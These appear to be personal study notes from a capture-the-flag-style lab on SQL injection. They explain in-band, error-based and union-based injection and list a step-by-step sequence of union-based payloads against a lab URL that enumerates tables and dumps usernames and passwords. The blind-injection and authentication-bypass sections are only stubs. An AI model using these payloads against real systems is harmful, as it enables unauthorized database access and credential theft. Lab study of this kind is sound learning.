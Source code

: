 In-Band SQL Injection 
- the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the result

Error based SQL 
- This type of SQL Injection is the most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 

Union based SQL
- Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.


### In-Band injection

```
// SQL injection 

base : `https:/website.thm/article?id= `

base + `1' `  to get error and see what database
base + `1 union select 1 `  error, union has diff number
base + `1 union select 1,2 ` same error
base + `0 union select 1,2,3 ` we get a blog

base + `0 union select 1,2, database()`  we get `sqli_one` as table 3

base + `0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'sqli_one' ` returns article, staff_users

base + `0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'  `  returns id, password, username 

base + `0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users `
we get usernames:password

// martin's password: pa$$word

```





### Blind SQLi

blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, because the error messages have been disabled,

just need some feedback for an attack 


### Authentication Bypass
